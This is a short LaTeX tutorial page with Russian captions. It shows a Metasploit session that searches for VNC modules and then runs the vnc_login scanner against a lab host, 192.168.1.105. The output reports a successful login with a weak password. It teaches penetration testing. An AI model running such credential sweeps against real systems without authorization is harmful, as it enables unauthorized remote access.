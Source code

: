 \documentclass[10pt,a4paper]{article}
\begin{document}
Ищем модуль:

\begin{lstlisting}
msf > search vnc

Matching Modules
================

   Name                                               Disclosure Date  Rank     Description
   ----                                               ---------------  ----     -----------
   auxiliary/admin/vnc/realvnc_41_bypass              2006-05-15       normal
      RealVNC NULL Authentication Mode Bypass
   auxiliary/scanner/vnc/vnc_login                                     normal 
     VNC Authentication Scanner
   auxiliary/scanner/vnc/vnc_none_auth                                 normal 
     VNC Authentication None Detection
   auxiliary/server/capture/vnc                                        normal
      Authentication Capture: VNC
      ...                       
\end{lstlisting}


Выбираем модуль, устанавливаем параметры и  запускаем:
\begin{lstlisting}
msf > use auxiliary/scanner/vnc/vnc_login auxiliary/scanner/vnc/vnc_login
msf auxiliary(vnc_login) > set RHOSTs 192.168.1.105
RHOSTs => 192.168.1.105
msf auxiliary(vnc_login) > set RHOSTS 192.168.1.105
RHOSTS => 192.168.1.105
msf auxiliary(vnc_login) > set THREADS 4
THREADS => 4
msf auxiliary(vnc_login) > run

[*] 192.168.1.105:5900 - Starting VNC login sweep
[+] 192.168.1.105:5900 - LOGIN SUCCESSFUL: :password
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(vnc_login) > 
\end{lstlisting}


\begin{figure}[h!]
\centering
\includegraphics[scale=0.4]{vnc_login.JPG}
\caption{Работа с модулем vnc\_login}
\end{figure}
\end{document}
